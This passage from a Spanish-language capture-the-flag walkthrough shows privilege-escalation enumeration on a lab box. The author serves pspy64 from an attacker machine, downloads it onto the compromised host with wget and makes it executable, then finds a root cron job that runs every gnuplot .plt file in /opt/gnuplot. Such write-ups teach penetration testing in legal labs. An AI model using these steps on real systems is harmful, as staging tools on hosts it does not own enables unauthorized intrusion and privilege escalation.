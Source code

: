 Por lo tanto, probamos de enumerar los procesos que se encontraban en ejecución mediante `pspy64`. Este binario que disponemos en nuestro equipo local, lo compartiremos mediante un servidor web.

```bash
❯ ls -l pspy64
.rwxr-xr-x kali kali 3.0 MB Tue Jan 17 22:09:52 2023  pspy64

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo comprometido, nos descargaremos el binario y le daremos los permisos de ejecución correspondientes.

```bash
vdaisley@topology:/tmp$ wget 10.10.16.3/pspy64; chmod +x pspy64
--2025-02-16 19:04:18--  http://10.10.16.3/pspy64
Connecting to 10.10.16.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                      100%[==========================================>]   2.96M  1.58MB/s    in 1.9s    

2025-02-16 19:04:20 (1.58 MB/s) - ‘pspy64’ saved [3104768/3104768]
```

Ejecutaremos el binario de `pspy64` para analizar los procesos que se encontraban en ejecución en el sistema. Después de un breve tiempo, comprobamos que se están ejecutando mediante una tarea `CRON`, la ejecución de archivos con extensión `.plt` en el directorio `/opt/gnuplot` y posteriormente se ejecutan con `gnuplot`.

```bash
vdaisley@topology:/tmp$ ./pspy64 
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2025/02/16 19:04:46 CMD: UID=1007  PID=3034   | ./pspy64 
2025/02/16 19:04:46 CMD: UID=0     PID=2986   | 
2025/02/16 19:04:46 CMD: UID=0     PID=2985   | 
2025/02/16 19:04:46 CMD: UID=0     PID=1      | /sbin/init 
2025/02/16 19:05:01 CMD: UID=0     PID=3046   | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
2025/02/16 19:05:01 CMD: UID=0     PID=3045   | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
2025/02/16 19:05:01 CMD: UID=0     PID=3044   | /usr/sbin/CRON -f 
2025/02/16 19:05:01 CMD: UID=0     PID=3043   | /usr/sbin/CRON -f 
2025/02/16 19:05:01 CMD: UID=0     PID=3048   | /usr/sbin/CRON -f 
2025/02/16 19:05:01 CMD: UID=0     PID=3047   | gnuplot /opt/gnuplot/loadplot.plt 
2025/02/16 19:05:01 CMD: UID=0     PID=3053   | /bin/sh /opt/gnuplot/getdata.sh 
2025/02/16 19:05:01 CMD: UID=0     PID=3052   | /bin/sh /opt/gnuplot/getdata.sh 
```